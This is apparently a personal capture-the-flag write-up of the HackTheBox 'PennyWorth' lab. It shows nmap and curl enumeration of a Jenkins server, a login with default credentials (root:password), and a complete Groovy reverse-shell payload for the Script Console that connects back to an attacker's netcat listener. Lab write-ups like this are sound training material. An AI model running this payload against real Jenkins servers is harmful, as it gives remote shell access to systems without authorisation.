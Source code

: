 ## Lab Title: PennyWorth
- Date: 2025-08-06
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 1

### 1. Scenario Summary
- Jenkins Shell Access >> Groovy Scripts >> Reverse Shell >> Netcat usage

### 2. Findings
- CVE           >> Common Vulnerabilities and Exposures
- CIA           >> Confidentiality, Integrity, Availability
- Nmap          >> Enumeration
    - `nmap $ip -Pn -sV -p T:8080` >> Jetty 9.4.39.v20210325
    
- Curl          >> To see webcontent
    - `curl -vv http://$ip:8080` >> 
    - Jenkins Version >> 2.289.1
    - Server: Jetty(9.4.39.v20210325)

- Jenkins       >> Tool to automate building/testing/integration/deployment of Softwares
    - It has >>  Jenkins Script Console >> takes Groovy Scripts
    - Provides a `web-based Groovy shell` into the `Jenkins runtime env`

- Goal >> is to have access to `Script Console` in page of Jenkins >> I got via login page of Jenkins with credentials: `root:password`
    - In this shell, I used `reverse shell` payload crafted for Groovy:
        - Payload:
            ```code
                        String host="10.10.14.21";
                        int port=8000;
                        String cmd="/bin/bash";
                        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new
                        Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
                        OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())             {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
                        
                        ```
                
        - Before this make sure that on your machine >> you run `nc -lvnp 8000` to accept the connection
        - Then you got `reverse shell` voila >> go to `/root/flag.txt`

### 3. Idea
- Jenkins Shell Access >> Groovy Scripts >> Reverse Shell >> Netcat usage



